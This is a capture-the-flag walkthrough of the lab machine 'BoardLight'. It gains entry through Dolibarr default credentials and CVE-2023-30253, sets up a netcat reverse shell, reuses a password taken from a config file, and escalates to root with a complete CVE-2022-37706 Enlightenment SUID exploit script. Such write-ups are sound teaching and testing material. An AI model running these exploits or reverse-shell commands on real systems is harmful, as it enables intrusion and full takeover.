









Exploitation Summary
Exploitation process: The target machine was running a Dolibarr ERP system version 17.0.0 on a virtual host. Through virtual host enumeration, I discovered crm.board.htb hosting the Dolibarr instance with weak default credentials (admin:admin).
After authenticating, I exploited CVE-2023-30253, a vulnerability in Dolibarr that allows authenticated remote code execution through an uppercase PHP tag manipulation bypass. By creating a malicious website page containing a PHP reverse shell with uppercase tags (<?PHP instead of <?php), I bypassed filtering mechanisms and gained initial access as the www-data user.
Lateral movement to user larissa was achieved by extracting database credentials from Dolibarr's configuration file and attempting password reuse. The database password worked for SSH access as larissa. Finally, privilege escalation to root was accomplished by exploiting CVE-2022-37706, a vulnerability in the Enlightenment window manager's SUID binary enlightenment_sys, which has insecure handling of user-controlled input passed to system calls.
Technologies/Exploits: Dolibarr ERP 17.0.0 authenticated RCE (CVE-2023-30253), password reuse, Enlightenment privilege escalation (CVE-2022-37706).
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals SSH on port 22 and an Apache web server on port 80. Next, I use whatweb to gather more information about the web service:
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ],
Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]The output shows an Apache server on Ubuntu and reveals an email address with the domain board.htb, which I add to my /etc/hosts file.
Web Enumeration
Browsing the website, I notice it uses PHP pages. I run a gobuster scan with the .php extension to discover additional directories and files:

The main website appears fairly basic without much attack surface. However, several references to board.htb throughout the site suggest there may be virtual hosts configured. I perform a virtual host enumeration with gobuster:

Excellent! I discover a subdomain: crm.board.htb. I add this to my /etc/hosts file and navigate to it.
Dolibarr ERP Discovery
The virtual host reveals a Dolibarr ERP system with a login page:

I can see the version information displayed on the login page:

Dolibarr is an open-source ERP and CRM system commonly used by businesses to manage various operations. Before attempting any complex attacks, I try common default credentials. Surprisingly, admin:admin works and grants access to the dashboard.
However, I notice that my access appears to be restricted in certain areas:

Vulnerability Research - CVE-2023-30253
With the exact version identified (17.0.0), I search for known vulnerabilities affecting this version. I discover CVE-2023-30253, which allows authenticated remote code execution. According to the NVD description:
"Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data."
This vulnerability exploits a weakness in Dolibarr's input validation. The application filters for lowercase PHP tags (<?php) but fails to account for uppercase variations (<?PHP), which PHP still interprets as valid opening tags.
Understanding the Exploit
I locate a proof-of-concept exploit on GitHub: CVE-2023-30253 Exploit. Analyzing the exploit code reveals the attack methodology:

The exploit automates the following steps:
- Authenticates to the Dolibarr instance with provided credentials
- Creates a new website in the Dolibarr CMS functionality
- Creates a page within that website
- Edits the page content to inject a PHP reverse shell using uppercase tags
- Triggers the malicious page to execute the payload
The key to the exploit is visible in this code snippet showing the uppercase PHP tag manipulation:

Initial Access - Exploiting Dolibarr
First, I set up a netcat listener to catch the reverse shell:
sudo nc -lvnp 443Then I execute the exploit with the appropriate parameters:
python3 exploit.py http://crm.board.htb admin admin 10.10.16.6 443The exploit provides feedback on its progress:
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connectionAnd successfully receive the reverse shell connection as the www-data user. I upgrade the shell to a fully interactive TTY for better usability.
Lateral Movement - Database Credential Discovery
After establishing initial access, I begin enumerating the system. In the /home directory, I discover a user named larissa.
Checking listening ports with ss -tuln, I confirm that MySQL is running on port 3306. Since this is a web application, database credentials are likely stored in configuration files. After researching Dolibarr's directory structure, I locate the configuration file at /htdocs/conf/conf.php:
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';I connect to the MySQL database and extract user credentials:
mysql> select login, email, pass_crypted from llx_user;+----------+-------+--------------------------------------------------------------+
| login | email | pass_crypted |
+----------+-------+--------------------------------------------------------------+
| dolibarr | | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm |
| admin | | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 |
+----------+-------+--------------------------------------------------------------+These password hashes are bcrypt, which are computationally expensive to crack. However, before attempting to crack them, I try password reuse - testing whether the database password works for the larissa user account:
su - larissa
Password: serverfun2$2023!!Success! The database password works for SSH access as larissa, and I can now retrieve the user flag.
Privilege Escalation - Enlightenment SUID Vulnerability
After gaining access as larissa, I check the user's group memberships:
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)Being in the adm group is interesting as it grants read access to various system logs. I use this to enumerate files readable by this group:

larissa@boardlight:~$ find / -group adm 2>/dev/null/var/log/mysql
/var/log/mysql/error.log
/var/log/unattended-upgrades
/var/log/apache2
/var/log/apache2/error.log
/var/log/kern.log.1
/var/log/auth.log
/var/log/dmesg.0
/var/log/syslog.1
/var/log/kern.log
/var/log/audit
/var/log/audit/audit.log
/var/log/auth.log.1
/var/log/syslog
/var/log/dmesg
/var/log/nginx
/var/spool/rsyslogExamining /var/log/syslog.1, I notice references to VMware tools:
May 19 22:23:38 localhost VGAuthService[588]: Pref_Init: Using '/etc/vmware-tools/vgauth.conf' as preferences filepath
May 19 22:23:38 localhost VGAuthService[588]: Using '/var/lib/vmware/VGAuth/aliasStore' for alias store root directory
May 19 22:23:38 localhost VGAuthService[588]: LoadCatalogAndSchema: Using '/etc/vmware-tools/vgauth/schemas' for SAML schemasHowever, investigating VMware-related paths doesn't reveal any obvious privilege escalation vectors.
SUID Binary Enumeration
I shift focus to searching for SUID binaries, which can sometimes be leveraged for privilege escalation:
larissa@boardlight:~$ find / -perm -4000 2>/dev/null/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapperSeveral unusual SUID binaries stand out, particularly those related to Enlightenment (a window manager). Searching for "enlightenment suid" quickly reveals known exploits, specifically CVE-2022-37706.
Understanding CVE-2022-37706
I find a well-documented exploit on GitHub: CVE-2022-37706 LPE Exploit. This vulnerability exists in the enlightenment_sys SUID binary, which is part of the Enlightenment window manager.
According to the exploit author's analysis, the vulnerability stems from unsafe handling of user-controlled input that is passed to system() calls. The binary attempts to mount filesystems but fails to properly sanitize path inputs, allowing command injection.
I attempt to check the version of the binary, but it provides minimal information:
larissa@boardlight:~$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys --help
This is an internal tool for Enlightenment.
do not use it.Exploiting Enlightenment
The exploit is relatively straightforward. Here's what it does:
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
echo "[-] Couldn't find the vulnerable SUID file..."
echo "[*] Enlightenment should be installed on your system."
exit 1
fi
echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///netThe exploit works by:
- Locating the vulnerable SUID binary
- Creating specific directory structures in
/tmp - Creating a malicious executable (
/tmp/exploit) containing/bin/sh - Calling the SUID binary with crafted mount parameters that include path traversal and command injection
- The binary executes the malicious script with root privileges due to the SUID bit
I save the exploit to a file, make it executable, and run it:
larissa@boardlight:~$ ./exploit.sh[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
rootDespite the mount error message (which is expected and part of the exploit), I successfully obtain a root shell and can retrieve the root flag, completing the machine.